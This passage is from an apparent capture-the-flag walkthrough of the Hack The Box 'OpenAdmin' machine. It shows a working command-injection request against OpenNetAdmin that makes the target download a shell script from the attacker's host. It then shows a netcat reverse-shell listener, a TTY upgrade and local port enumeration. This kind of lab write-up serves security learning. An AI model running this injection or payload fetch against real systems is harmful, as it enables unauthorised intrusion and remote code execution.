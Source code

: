 ## Running the exploit
```console
reddevil@ubuntu:~/Documents/htb/retired/openadmin$ curl --silent -d "xajax=window_submit&xajaxr=1574117726710&xajaxargs[]=tooltips&xajaxargs[]=ip%3D%3E;echo \"BEGIN\";curl 10.10.14.22:8000/shell.sh -o /tmp/shell.sh;echo \"END\"&xajaxargs[]=ping" "http://openadmin.ht
b/ona/" | sed -n -e '/BEGIN/,/END/ p' | tail -n +2 | head -n -1
```
I get a callback for the file on the python server.
```console
reddevil@ubuntu:~/Documents/htb/retired/www$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.171 - - [04/Jul/2021 18:23:43] "GET /shell.sh HTTP/1.1" 200 -
```

Now I just have to execute the payload.
![image](/assets/images/htb-boxes/openadmin/Pasted image 20210704183038.png)
We get a shell and we are running as www-data user.

## Getting a TTY
```console
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@openadmin:/opt/ona/www$ ^Z
[1]+  Stopped                 nc -nvlp 9001
reddevil@ubuntu:~/Documents/htb/retired/openadmin$ stty raw -echo
reddevil@ubuntu:~/Documents/htb/retired/openadmin$ nc -nvlp 9001

www-data@openadmin:/opt/ona/www$ export TERM=xterm
```

# Privilege Escalation
## Listing listening ports
```console
www-data@openadmin:/var/www$ ss -ltnp
State              Recv-Q              Send-Q                            Local Address:Port                            Peer Address:Port              
LISTEN             0                   128                               127.0.0.53%lo:53                                   0.0.0.0:*                 
LISTEN             0                   128                                     0.0.0.0:22                                   0.0.0.0:*                 
LISTEN             0                   80                                    127.0.0.1:3306                                 0.0.0.0:*                 
LISTEN             0                   128                                   127.0.0.1:52846                                0.0.0.0:*                 
LISTEN             0                   128                                           *:80                                         *:*                 
LISTEN             0                   128                                        [::]:22  
```
We have two new ports open which we did not see on our nmap scan. It is because they are only listening on the local interface.
